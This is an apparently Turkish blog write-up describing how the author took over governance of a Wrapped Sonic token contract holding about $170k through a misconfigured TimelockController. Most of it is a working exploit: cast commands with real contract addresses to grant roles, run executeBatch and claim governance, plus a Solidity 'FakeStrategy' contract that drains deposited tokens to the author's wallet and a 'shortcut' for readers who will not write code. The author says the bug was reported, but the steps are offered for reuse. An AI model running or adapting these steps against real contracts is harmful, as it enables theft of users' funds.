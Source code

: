 ```yaml
---
title: "New file"
description: "Description of your new file."
---
```


Ufak uyarı: Göstermiş olduğum örnek origin altyapısını kullanmakta, açığı bildirdim ve kapattılar ancak siz genede o kapıyı çok zorlamayın :)))

Öncelikle hedefimiz bu

![Ekrangörüntüsü2025 08 17013651 Pn](/images/Ekrangörüntüsü2025-08-17013651.png)

170k dolar değerinde wrapped coin bulunuyor, sonic altyapısını kullanan bu tokeni bende ilk defa zafiyet ararken buldum :D

Buranın içinde kod analizine girdiğimde bir açık yok ancak yönetici aktiviteleri için yönlendirme yaptığı adres çok sıkıntılı, kendi içinde tüm aktivitelerin yöneticisi olarak Governor rolü belirlenmiş ama governor rolüne atanan bir kimse yok yani isteyen ilk kişi kendisini yönetici yapabiliyordu

![Image(1) Avi](/images/image\(1\).avif)

- Bu kontratın Governor’ı `0x31a91336414d3b955e494e7d485a6b06b55fc8fb` adresindeki **TimelockController** kontratıydı.
- Orada `AccessControl` ile yönetilen `EXECUTOR` ve `PROPOSER` rolleri vardı, biz de role sahip olarak yönetimi ele geçirip kendimize Governor rolünü verdik.

## **ZURNANIN KOPTUĞU YER**

elimizdeki bilgiler aşşağıdaki gibi

- **WS token (Wrapped Sonic)**: `0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186`
- **TimelockController (Governor)**: `0x31a91336414d3b955e494e7d485a6b06b55fc8fb`
- **Senin cüzdanın** (örnek): `0x12dC3655fAC6388ACFe6753C0214Ecec34B87217`

#### **1- Rol Hashleri**

- cast keccak "PROPOSER_ROLE" # =\> PROPOSER_ROLE hash
-  cast keccak "EXECUTOR_ROLE" # =\> EXECUTOR_ROLE hash
-  cast keccak "TIMELOCK_ADMIN_ROLE" # =\> TIMELOCK_ADMIN_ROLE hash

#### **2- Mevcut konfigürasyonu okumak**

Gerekenler: **minDelay**, **kimde hangi rol var**, **executor açık mı** (0x000…000 herkesi ifade eder).

Copy

```
# min delay
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "getMinDelay()(uint256)"

# roller (örnek, hash’i yukarıdan roleHash ile değiştir)
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000
```

Eğer `EXECUTOR` **0x000…000** ise: “herkes execute edebilir” anlamına gelir (kritik yanlış konfig).

`minDelay == 0` ise işler çok kolay (anında schedule→execute).

## **3- BATCH HAZIRLAMA**

Hedef batch (aynı anda çağrılacak fonksiyonlar):

1. **Timelock.grantRole(PROPOSER_ROLE, biz)** → ileriye dönük planlama serbestisi
2. **Timelock.grantRole(EXECUTOR_ROLE, 0x000…000 veya biz)** → herkes/biz execute edebilelim
3. **VaultCore.transferGovernance(attacker)** _veya_ VaultCore tarafındaki “governor set” türevi fonksiyon (sende VaultCore’un ABI’sine göre değişebilir)

Bazı VaultCore’larda iki adım vardır: `transferGovernance(newGov)` → sonra `claimGovernance()` (biz çağırırız).

#### **3.1 calldataları çıkar**

Copy

```
cast calldata "grantRole(bytes32,address)" <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

# grantRole(EXECUTOR_ROLE, 0x000...000)  (ya da kendi adresin)
cast calldata "grantRole(bytes32,address)" <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000

cast calldata "transferGovernance(address)" 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217
```

**3.2 batch parametrelerini kur**

Copy

```
TARGETS='["0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186"]'

VALUES='[0,0,0]'
#yukarıda ürettiğin 3 calldata stringini sırayla koy
DATAS='["0x<calldata1>","0x<calldata2>","0x<calldata3>"]'
PREDECESSOR=0x0000000000000000000000000000000000000000000000000000000000000000
SALT=0x1111111111111111111111111111111111111111111111111111111111111111
DELAY=0   # (getMinDelay 0 değilse, o değeri kullan; 0 ise direkt yürür)
```

## **5- executeBatch**

herkese açıksa herkes çağırabilir

mindelay 0 geçtiyse direkt:

Copy

```
cast send 0x31a91336414d3b955e494e7d485a6b06b55fc8fb \
 "executeBatch(address[],uint256[],bytes[],bytes32,bytes32)" \
 "$TARGETS" "$VALUES" "$DATAS" $PREDECESSOR $SALT
```

Bu batch şunları yapar:

- Sana **PROPOSER** verir,
- **EXECUTOR**’ı genişletir (isteğe göre herkese),
- **VaultCore.transferGovernance(attacker)** çağrılır.

## **6- Claim Vakti**

Copy

```
cast send 0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186 "claimGovernance()"
```

Tüm bu adımlardan sonra Governance rolünü ele geçirmiş oldum yani 170k dolar değerindeki tokeni istediğim heryere sürebiliyordum. İçimde ki Allah korkusu ve iyi niyet bastı, gidip bu açığı raporladım. ücreti mukabilinde bir ödeme aldım sağolsunlar.

## **E BEN QOD YAZMAK İSTEMÜYOREM**

üşengeç göt, al sana kısa yol

https://remix.ethereum.org/ kendi metamask hesabınla giriş yap, 3 4 dolar birşey attım içine denemek için, burdada aynı adresi yokladığımda bu adrese hiçbir allahın kulu konmamıştı, yani gene gene gene istediğim adrese istediğim şekilde tokeni yollayabiliyodum.

<img
  src="/images/image(2).png"
  alt="Image(2) Pn"
  title="Image(2) Pn"
  style={{ width:"23%" }}
/>

aşşağıda vericeğim kodları tek tek contract kısmına girerekte claim yapabilirsin. ama metamask hesabına sonic alt yapısını kurman ve içerisinde min 3 dolar tutman lazım yoksa ağ çalışmaz, çalışınca böyle bir ekran alırsın sağ altta

![Image(3 Avi](/images/image\(3.avif)

Okuduğun için teşekkürler, arap çorbası oldu ama teknik bilen adam anlar abi, hayırlı günler dilerim. aşşağıya kodları bıraktım uğraşmak istemeyenler baksın, öptüm.

VAULTCORE.SOL

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VaultCore {
    address public governor;

    function initialize(address _priceProvider, address _oToken) external {
        require(governor == address(0), "Already initialized");
        governor = msg.sender;
    }
}
```

FAKESTRATEGY.SOL (PARA NASIL ÇEKİLİR ONUN KODU, MERAKLISINA GİDER..=)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract FakeStrategy {
    address public target = 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217; // Benim adresim, para atacaklar şimdiden teşekkürler.

    function deposit(address asset, uint256 amount) external {
        IERC20(asset).transfer(target, amount); // buraya para çekiliyor
    }

    function supportsAsset(address) external pure returns (bool) {
        return true;
    }

    function checkBalance(address) external pure returns (uint256) {
        return 0;
    }

    function withdraw(address, address, uint256) external {}
}
```